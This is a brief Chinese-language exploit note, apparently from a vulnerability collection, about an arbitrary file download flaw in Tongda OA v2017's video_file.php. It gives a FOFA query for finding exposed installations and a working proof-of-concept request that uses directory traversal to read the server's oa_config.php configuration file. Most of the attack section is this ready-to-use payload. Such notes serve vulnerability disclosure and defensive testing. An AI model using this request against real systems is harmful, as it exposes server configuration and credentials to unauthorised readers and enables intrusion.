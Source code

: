 # 通达OA v2017 video_file.php 任意文件下载漏洞

## 漏洞描述

通达OA v2017 video_file.php文件存在任意文件下载漏洞，攻击者通过漏洞可以读取服务器敏感文件

## 漏洞影响

```
通达OA v2017
```

## FOFA

```
app="TDXK-通达OA"
```

## 漏洞复现

验证POC

```
/general/mytable/intel_view/video_file.php?MEDIA_DIR=../../../inc/&MEDIA_NAME=oa_config.php	
```

![image-20220715110910861](./images/202207151109936.png)